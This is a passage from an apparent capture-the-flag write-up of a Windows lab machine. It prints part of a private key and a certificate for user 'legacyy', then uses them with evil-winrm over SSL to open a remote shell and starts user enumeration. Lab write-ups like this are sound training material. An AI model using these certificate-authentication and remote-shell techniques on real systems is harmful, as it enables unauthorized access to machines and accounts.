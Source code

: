 ```
c2gFFK+MMnFncM752xpEtbUrtEULAKkhVMh6mAywIUWaYvpmbHDMPDIGqV7at2+X
TTu+fiiJkAr+eTa/Sg3qLEOYgU0cSgWuZI0im3abbDtGlRt2Wga0/Igw9Ewzupc8
A5ZZvI+GsHhm0Oab7PEWlRY=
-----END PRIVATE KEY-----

$cat legacyy_dev_auth.crt
Bag Attributes
    localKeyID: 01 00 00 00
subject=CN = Legacyy

issuer=CN = Legacyy

-----BEGIN CERTIFICATE-----
MIIDJjCCAg6gAwIBAgIQHZmJKYrPEbtBk6HP9E4S3zANBgkqhkiG9w0BAQsFADAS
MRAwDgYDVQQDDAdMZWdhY3l5MB4XDTIxMTAyNTE0MDU1MloXDTMxMTAyNTE0MTU1
MlowEjEQMA4GA1UEAwwHTGVnYWN5eTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
AQoCggEBAKVWB6NiFkce4vNNI61hcc6LnrNKhyv2ibznhgO7/qocFrg1/zEU/og0
0E2Vha8DEK8ozxpCwem/e2inClD5htFkO7U3HKG9801NFeN0VBX2ciIqSjA63qAb
YX707mBUXg8Ccc+b5hg/CxuhGRhXxA6nMiLo0xmAMImuAhJZmZQepOHJsVb/s86Z
7WCzq2I3VcWg+7XM05hogvd21lprNdwvDoilMlE8kBYa22rIWiaZismoLMJJpa72
MbSnWEoruaTrC8FJHxB8dbapf341ssp6AK37+MBrq7ZX2W74rcwLY1pLM6giLkcs
yOeu6NGgLHe/plcvQo8IXMMwSosUkfECAwEAAaN4MHYwDgYDVR0PAQH/BAQDAgWg
MBMGA1UdJQQMMAoGCCsGAQUFBwMCMDAGA1UdEQQpMCegJQYKKwYBBAGCNxQCA6AX
DBVsZWdhY3l5QHRpbWVsYXBzZS5odGIwHQYDVR0OBBYEFMzZDuSvIJ6wdSv9gZYe
rC2xJVgZMA0GCSqGSIb3DQEBCwUAA4IBAQBfjvt2v94+/pb92nLIS4rna7CIKrqa
m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
-----END CERTIFICATE-----
```


## SHELL AS LEGACY

we can now use `evil-winrm` to spawn a shell using above cert and key. Since nmap shows `port 5986` open , we need to use -S for the `SSL` connection.
```
$evil-winrm -S -c legacyy_dev_auth.crt -k legacyy_dev_auth.key -i 10.10.11.152

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

## SHELL AS SVC_DEPLOY

### ENUMERATION

```
*Evil-WinRM* PS C:\Users\legacyy> net user legacyy
User name                    legacyy
Full Name                    Legacyy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/23/2021 11:17:10 AM
Password expires             Never
Password changeable          10/24/2021 11:17:10 AM
Password required            Yes
```